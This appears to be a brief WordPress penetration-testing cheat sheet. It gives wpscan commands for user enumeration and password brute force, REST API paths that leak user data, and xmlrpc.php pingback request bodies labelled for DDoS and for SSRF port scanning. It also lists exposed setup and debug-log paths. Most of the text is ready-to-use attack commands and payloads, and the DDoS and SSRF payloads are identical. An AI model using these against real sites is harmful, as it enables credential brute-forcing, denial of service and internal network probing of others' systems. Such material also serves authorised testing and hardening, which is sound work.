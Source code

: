 #### TOOLS 
- wpscan
  ````
  wpscan --url https://blog.com --enumerate u   ==> user enumeration
  wpscan  -U users.txt -P password.txt  --url https://blog.com
  ````

#### WP-USER ENUMERATION
This issue will only acceptable when target website is hiding their current users or they are not publically available. So attacker can use those user data for bruteforcing and other staff
````
- wp-json/wp/v2/users/
- wp-json/wp/v2/pages  ===> could leak ip addresses
- ?rest_route=/wp/v2/users
You will see json data with user info in response
````

#### xmlrpc.php
send the post request with the following data
- LIST ALL THE METHODS
````
                <?xml version="1.0" encoding="utf-8"?>
                <methodCall> 
                <methodName>system.listMethods</methodName> 
                <params></params> 
                </methodCall>

````
- Check the pingback.ping method is there or not. Perform DDOS
````
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
````
- Perform SSRF (Internal PORT scan only)
````
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
````
#### CREATE DATABASE
- /wp-admin/setup-config.php?step=1  ===> may give access to create new database if they forgot to configure the database 
 #### Log files exposed
- wp-content/debug.log
